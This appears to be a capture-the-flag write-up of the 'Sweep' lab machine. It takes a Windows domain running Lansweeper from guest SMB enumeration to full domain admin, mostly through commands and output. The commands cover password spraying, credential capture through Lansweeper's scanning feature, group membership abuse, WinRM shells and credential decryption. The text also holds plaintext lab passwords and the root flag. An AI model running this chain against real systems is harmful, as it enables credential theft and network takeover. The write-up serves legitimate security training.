





# Sweep
## Host file setup
```python
sudo nxc smb 10.129.234.177 --generate-hosts-file /etc/hosts         
[sudo] password for kali: 
SMB         10.129.234.177  445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:None) (Null Auth:True)
```
## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT 10.129.234.177
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 15:21 +0000
Nmap scan report for 10.129.234.177
Host is up (0.014s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
81/tcp    open  hosts2-ns
82/tcp    open  xfer
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
9524/tcp  open  unknown
49664/tcp open  unknown
49667/tcp open  unknown
51846/tcp open  unknown
51847/tcp open  unknown
59661/tcp open  unknown
59673/tcp open  unknown
60746/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.30 seconds
```
Something interesting is that port 81 and 82 are open?
### Nmap
```python
nmap -p 53,81,82,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,9524 -A --min-rate=2000 -sT inventory.sweep.vl
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 15:24 +0000
Nmap scan report for inventory.sweep.vl (10.129.234.177)
Host is up (0.014s latency).
rDNS record for 10.129.234.177: INVENTORY.sweep.vl

PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus

81/tcp   open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx

82/tcp   open  ssl/xfer?
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=Lansweeper Secure Website
| Subject Alternative Name: DNS:localhost, DNS:localhost, DNS:localhost
| Not valid before: 2021-11-21T09:22:27
|_Not valid after:  2121-12-21T09:22:27
|_ssl-date: TLS randomness does not represent time

88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-03-16 15:24:25Z)

135/tcp  open  msrpc             Microsoft Windows RPC

139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn

389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: sweep.vl, Site: Default-First-Site-Name)

445/tcp  open  microsoft-ds?

464/tcp  open  kpasswd5?

593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0

636/tcp  open  ldapssl?

3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: sweep.vl, Site: Default-First-Site-Name)

3269/tcp open  globalcatLDAPssl?

3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=inventory.sweep.vl
| Not valid before: 2026-03-15T15:19:13
|_Not valid after:  2026-09-14T15:19:13
|_ssl-date: 2026-03-16T15:25:37+00:00; 0s from scanner time.

5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

9389/tcp open  mc-nmf            .NET Message Framing

9524/tcp open  ssl/http          Microsoft Kestrel httpd
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: 2026-03-16T15:25:37+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=lansweeper-server-communication
| Subject Alternative Name: DNS:localhost, DNS:INVENTORY, DNS:inventory.sweep.vl, IP Address:192.168.115.145
| Not valid before: 2024-02-08T19:51:08
|_Not valid after:  3024-02-08T19:51:08

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: INVENTORY; OS: Windows; CPE: cpe:/o:microsoft:windows
```
There are some interesting ports here
Interesting ports:
- 81
- 82
- 9524
So after some initial recon port 81 is a webserver for a service called lansweeper!
## HTTP (81)
### Nuclei
```python
nothing found
```
### Subdomains
```python
nothing found
```
### Feroxbuster
```python
nothing found
```
### Website functionality
Landing page is a lansweeper logon page

Found some manual username enumeration, this error it has given me is different from other errors!
No default creds and no initial version enumeration

## SMB (445)
Null authentication is enabled but not able to use it to list shares and users
### Guest access
#### Shares
```python
nxc smb inventory.sweep.vl -u 'Guest' -p '' --shares
SMB         10.129.234.177  445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.177  445    INVENTORY        [+] sweep.vl\Guest: 
SMB         10.129.234.177  445    INVENTORY        [*] Enumerated shares
SMB         10.129.234.177  445    INVENTORY        Share           Permissions     Remark
SMB         10.129.234.177  445    INVENTORY        -----           -----------     ------
SMB         10.129.234.177  445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.129.234.177  445    INVENTORY        C$                              Default share
SMB         10.129.234.177  445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.129.234.177  445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.129.234.177  445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.129.234.177  445    INVENTORY        NETLOGON                        Logon server share 
SMB         10.129.234.177  445    INVENTORY        SYSVOL                          Logon server share
```
#### Users
```python
nxc smb inventory.sweep.vl -u 'Guest' -p '' --rid-brute
SMB         10.129.234.177  445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.177  445    INVENTORY        [+] sweep.vl\Guest: 
SMB         10.129.234.177  445    INVENTORY        498: SWEEP\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        500: SWEEP\Administrator (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        501: SWEEP\Guest (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        502: SWEEP\krbtgt (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        512: SWEEP\Domain Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        513: SWEEP\Domain Users (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        514: SWEEP\Domain Guests (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        515: SWEEP\Domain Computers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        516: SWEEP\Domain Controllers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        517: SWEEP\Cert Publishers (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        518: SWEEP\Schema Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        519: SWEEP\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        520: SWEEP\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        521: SWEEP\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        522: SWEEP\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        525: SWEEP\Protected Users (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        526: SWEEP\Key Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        527: SWEEP\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        553: SWEEP\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        571: SWEEP\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        572: SWEEP\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        1000: SWEEP\INVENTORY$ (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1101: SWEEP\DnsAdmins (SidTypeAlias)
SMB         10.129.234.177  445    INVENTORY        1102: SWEEP\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        1103: SWEEP\Lansweeper Admins (SidTypeGroup)
SMB         10.129.234.177  445    INVENTORY        1113: SWEEP\jgre808 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1114: SWEEP\bcla614 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1115: SWEEP\hmar648 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1116: SWEEP\jgar931 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1117: SWEEP\fcla801 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1118: SWEEP\jwil197 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1119: SWEEP\grob171 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1120: SWEEP\fdav736 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1121: SWEEP\jsmi791 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1122: SWEEP\hjoh690 (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1123: SWEEP\svc_inventory_win (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1124: SWEEP\svc_inventory_lnx (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        1125: SWEEP\intern (SidTypeUser)
SMB         10.129.234.177  445    INVENTORY        3101: SWEEP\Lansweeper Discovery (SidTypeGroup)
```
Ive managed to dump the users, using this ill create a user list

```python
cat users.txt                            
Administrator
Guest
krbtgt
INVENTORY$
jgre808
bcla614
hmar648
jgar931
fcla801
jwil197
grob171
fdav736
jsmi791
hjoh690
svc_inventory_win
svc_inventory_lnx
intern
```
Here is the list of users
So now i have some users i can try a password spray
## Compromising `intern`
```python
nxc smb inventory.sweep.vl -u users.txt -p users.txt --continue-on-success

SMB         10.129.234.177  445    INVENTORY        [+] sweep.vl\intern:intern
```
I have now compromised the `intern` user
This password also gets me access to the web portal on port 81
Now that im logged in i can see that the lansweeper version is `11.1.6.0`
There doesnt appear to be any exploits for this version

## Abusing lansweeper scanning functionality
https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/lansweeper-security.html

I have set this to a IP range and put my ip address as the start then ive set the SSH port to 2022 as i cant use 22 on HTB
Now in the scanning creds tab i can do some more setup

Now the plan is to setup sshesame
### Capturing credentials
Now ive installed sshesame via apt on my machine now ill set the config
This will act as a listener
```python
server:
  listen_address: 10.10.14.90:2022
```
Ill add this to `sshesame.conf` in my current directory

```python
sshesame --config sshesame.conf
INFO 2026/03/16 16:46:46 No host keys configured, using keys at "/home/kali/.local/share/sshesame"
INFO 2026/03/16 16:46:46 Host key "/home/kali/.local/share/sshesame/host_rsa_key" not found, generating it
INFO 2026/03/16 16:46:46 Host key "/home/kali/.local/share/sshesame/host_ecdsa_key" not found, generating it
INFO 2026/03/16 16:46:46 Host key "/home/kali/.local/share/sshesame/host_ed25519_key" not found, generating it
INFO 2026/03/16 16:46:46 Listening on 10.10.14.90:2022
```
So now ill start the listener using the config file, then ill choose "Scan Now" on my IP range i made in the scanning targets tab

```python
2026/03/16 16:50:21 [10.129.234.177:60099] authentication for user "svc_inventory_lnx" without credentials rejected
2026/03/16 16:50:21 [10.129.234.177:60099] authentication for user "svc_inventory_lnx" with password "0|5m-U6?/uAX" accepted
```
After a while i got a response and found some creds

```python
svc_inventory_lnx:0|5m-U6?/uAX
```
I can now test these creds

```python
nxc ldap inventory.sweep.vl -u 'svc_inventory_lnx' -p '0|5m-U6?/uAX'   
LDAP        10.129.234.177  389    INVENTORY        [*] Windows Server 2022 Build 20348 (name:INVENTORY) (domain:sweep.vl) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.234.177  389    INVENTORY        [+] sweep.vl\svc_inventory_lnx:0|5m-U6?/uAX
```
This user is now compromised

### Bloodhound

This new user has some outbound object control, specifically GenericAll on the `lansweeper admins` group
This means i should be able to add this current user to the `lansweeper admins` group

## Adding `svc_inventory_lnx` to the `lansweeper admins` group
```python
net rpc group addmem "lansweeper admins" "svc_inventory_lnx" -U "sweep.vl"/"svc_inventory_lnx"%'0|5m-U6?/uAX' -S "inventory.sweep.vl"
```
This should have added the user to the group but i can check with:

```python
net rpc group members "lansweeper admins" -U "sweep.vl"/"svc_inventory_lnx"%'0|5m-U6?/uAX' -S "inventory.sweep.vl" 
SWEEP\jgre808
SWEEP\svc_inventory_lnx
```
I am now apart of the group


So this group i am now apart of is a MemberOf `remote management users` this should mean i can now get access over winrm

### Evil-winrm access as `svc_inventory_lnx`
```python
evil-winrm -i inventory.sweep.vl -u 'svc_inventory_lnx' -p '0|5m-U6?/uAX'       
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_inventory_lnx\Documents>
```
I have now got a shell as this user
I have tried looking for creds but they are encrpyted
But i could try uploading a tool to do this

## Domain admin
https://github.com/Yeeb1/SharpLansweeperDecrypt
I can use this tool above and upload it to try and decrypt the creds
```python
*Evil-WinRM* PS C:\programdata> upload SharpLansweeperDecrypt/LansweeperDecrypt.ps1
                                        
Info: Uploading /home/kali/htb/sweep/SharpLansweeperDecrypt/LansweeperDecrypt.ps1 to C:\programdata\LansweeperDecrypt.ps1
                                        
Data: 5700 bytes of 5700 bytes copied
                                        
Info: Upload successful!
```
This uploaded the tool

```python
Evil-WinRM* PS C:\programdata> ./LansweeperDecrypt.ps1
[+] Loading web.config file...
[+] Found protected connectionStrings section. Decrypting...
[+] Decrypted connectionStrings section:
<connectionStrings>
    <add name="lansweeper" connectionString="Data Source=(localdb)\.\LSInstance;Initial Catalog=lansweeperdb;Integrated Security=False;User ID=lansweeperuser;Password=Uk2)Dw3!Wf1)Hh;Connect Timeout=10;Application Name=&quot;LsService Core .Net SqlClient Data Provider&quot;" providerName="System.Data.SqlClient" />
</connectionStrings>
[+] Opening connection to the database...
[+] Retrieving credentials from the database...
[+] Decrypting password for user: SNMP Community String
[+] Decrypting password for user:
[+] Decrypting password for user: SWEEP\svc_inventory_win
[+] Decrypting password for user: svc_inventory_lnx
[+] Credentials retrieved and decrypted successfully:

CredName          Username                Password
--------          --------                --------
SNMP-Private      SNMP Community String   private
Global SNMP                               public
Inventory Windows SWEEP\svc_inventory_win 4^56!sK&}eA?
Inventory Linux   svc_inventory_lnx       0|5m-U6?/uAX


[+] Database connection closed.
```
I have found some more credentials for the `svc_inventory_win`

```python
svc_inventory_win:4^56!sK&}eA?
```
I can now test these creds

```python
nxc smb inventory.sweep.vl -u 'svc_inventory_win' -p '4^56!sK&}eA?' --shares
SMB         10.129.234.177  445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.177  445    INVENTORY        [+] sweep.vl\svc_inventory_win:4^56!sK&}eA? (Pwn3d!)
SMB         10.129.234.177  445    INVENTORY        [*] Enumerated shares
SMB         10.129.234.177  445    INVENTORY        Share           Permissions     Remark
SMB         10.129.234.177  445    INVENTORY        -----           -----------     ------
SMB         10.129.234.177  445    INVENTORY        ADMIN$          READ,WRITE      Remote Admin
SMB         10.129.234.177  445    INVENTORY        C$              READ,WRITE      Default share
SMB         10.129.234.177  445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.129.234.177  445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.129.234.177  445    INVENTORY        Lansweeper$     READ            Lansweeper Actions
SMB         10.129.234.177  445    INVENTORY        NETLOGON        READ,WRITE      Logon server share 
SMB         10.129.234.177  445    INVENTORY        SYSVOL          READ,WRITE      Logon server share
```
This user is an administrator!

```python
evil-winrm -i inventory.sweep.vl -u 'svc_inventory_win' -p '4^56!sK&}eA?'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_inventory_win\Documents> cd ../../Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/5/2025   5:43 AM             33 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
||71770ae0f007e2aed64425728977cc65||
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Access as the administrator

```python
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Full domain compromise!
